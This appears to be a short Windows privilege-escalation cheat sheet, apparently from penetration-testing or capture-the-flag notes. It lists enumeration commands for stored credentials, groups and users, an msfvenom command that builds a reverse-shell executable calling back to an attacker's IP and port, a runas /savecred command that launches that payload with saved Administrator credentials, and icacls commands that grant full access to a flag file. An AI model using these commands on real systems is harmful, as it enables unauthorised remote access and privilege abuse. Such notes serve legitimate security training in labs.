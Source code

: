 **RunAs**

Look for stored credentials that we can use

```
cmdkey /list
```

If stored credentials are returned for an Administrator we can use them to run commands with higher privileges.

For example, create a reverse shell payload.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

Transfer this to the target machine and run the following command to create a reverse shell connection to the attack machine.

```
runas /savecred /user:WORKGROUP\User "C:\Users\user\Desktop\shell.exe"
```

**Groups**

Check which groups our current user belongs to

```
whoami /groups
```

Check which groups are on this system. We can add the group name to see which users belong to it

```
net localgroup
net localgroup Administrators
```

**Other Users**

Check what other users exist on this machine. Add the username to see more information on that user

```
net user
net user Administrator
```

**File Permissions**

Check the file permissions on different files to see if you can acces them with some modification, e.g. flags. You can use `icacls` to check permissions and grant permissions if allowed. We are looking for an `F` in the output.

```
icacls root.txt
icacls root.txt /grant <Username>:F
```

**Executable Files**

Running `PowerUp` will list executables running as a service. We can check our access level using a tool from SysInternals.
